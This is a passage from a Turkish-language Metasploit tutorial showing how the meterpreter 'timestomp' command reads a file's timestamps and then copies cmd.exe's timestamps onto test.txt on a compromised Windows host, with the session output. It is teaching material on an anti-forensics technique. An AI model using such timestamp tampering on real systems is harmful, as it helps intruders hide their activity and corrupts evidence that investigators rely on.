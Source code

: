 ```bash
40777/rwxrwxrwx   0     dir   Wed Dec 31 19:00:00 -0500 1969  .           
40777/rwxrwxrwx   0     dir   Wed Dec 31 19:00:00 -0500 1969  ..          
40555/r-xr-xr-x   0     dir   Wed Dec 31 19:00:00 -0500 1969  My Pictures 
100666/rw-rw-rw-  28    fil   Wed Dec 31 19:00:00 -0500 1969  test.txt
```



Bulunduğumuz klasördeki `test.txt` dosyasının zaman bilgilerini `-v` seçeneği ile görüntüleyebilirsiniz.


```bash
meterpreter **>** timestomp test.txt -v
Modified      : Sun May 03 04:30:36 -0400 2009
Accessed      : Sun May 03 04:31:51 -0400 2009
Created       : Sun May 03 04:30:08 -0400 2009
Entry Modified: Sun May 03 04:31:44 -0400 2009
```



Bu dosyayı sizin oluşturduğunuzu düşünün. Bunu değiştirmek isteyebilirsiniz. Şimdi bu zaman bilgilerini değiştirmeye çalışalım. Bunu yapmanın birinci yolu, sistemde bulunan başka bir dosyanın zaman bilgilerini, `test.txt` dosyasına kopyalakmatır.



Örneğin, `cmd.exe` dosyasının zaman bilgilerini `test.txt` zaman bilgilerine kopyalayalım. Bunun için aşağıdaki komutu `-f` seçeneği ile yürütebilirsiniz.


```bash
meterpreter **>** timestomp test.txt -f C:\\WINNT\\system32\\cmd.exe
**[*********]** Setting MACE attributes on test.txt from C:\WINNT\system32\cmd.exe
meterpreter **>** timestomp test.txt -v
Modified      : Tue Dec 07 08:00:00 -0500 1999
Accessed      : Sun May 03 05:14:51 -0400 2009
Created       : Tue Dec 07 08:00:00 -0500 1999
Entry Modified: Sun May 03 05:11:16 -0400 2009
```



İşlem tamamlandı. Gerçekten kopyalanmış mı bakalım.


```bash
File Path: C:\Documents and Settings\P0WN3D\My Documents\test.txt
Created Date: 12/7/1999 7:00:00 AM
Last Accessed: 5/3/2009 3:11:16 AM
Last Modified: 12/7/1999 7:00:00 AM
```



Gördüğünüz gibi `test.txt` dosyasının MAC zaman bilgileri `cmd.exe` dosyasıyla aynı oldu.



Dikkatli bir kullanıcıysanız, Windows komut satırından ve Linux komut satırından dosyaya baktığınızda tarih bilgileri aynı olsa da saat bilgilerinin farklı olduğunu fark etmişsinizdir. Bu farkın sebebi `timezone` zaman dilimlerinin farklılığındandır.
